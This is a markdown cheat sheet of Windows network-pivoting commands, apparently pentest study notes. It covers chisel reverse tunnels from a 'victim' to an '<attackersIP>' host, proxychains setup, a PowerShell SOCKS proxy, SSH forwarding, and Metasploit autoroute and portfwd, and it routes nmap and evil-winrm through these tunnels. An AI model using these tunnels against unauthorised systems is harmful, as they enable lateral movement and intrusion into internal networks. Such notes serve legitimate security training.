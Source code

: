 # Windows pivoting

### Added nmap portable for linux systems to port scan.

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Understanding => R:1234(Remote Port):127.0.0.1(localhost):1234(Local Port)


Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.ps1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```

### Port Forwarding using SSH
```
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR>
ssh -L <PORT>:127.0.0.1:<PORT> <USERNAME>@<REMOTE_ADDR> -p 22
```

### routing through msf
```
run autoroute –s IP/24
use post/multi/manage/autoroute

socks proxy
use auxiliary/server/socks_proxy
```

### port forward through msf
```
Portfwd add -L 127.0.0.1 -l 445 -p 445 -r targetIP
portfwd add -L 127.0.0.1 -l 139 -p 139 -r targetIP
```
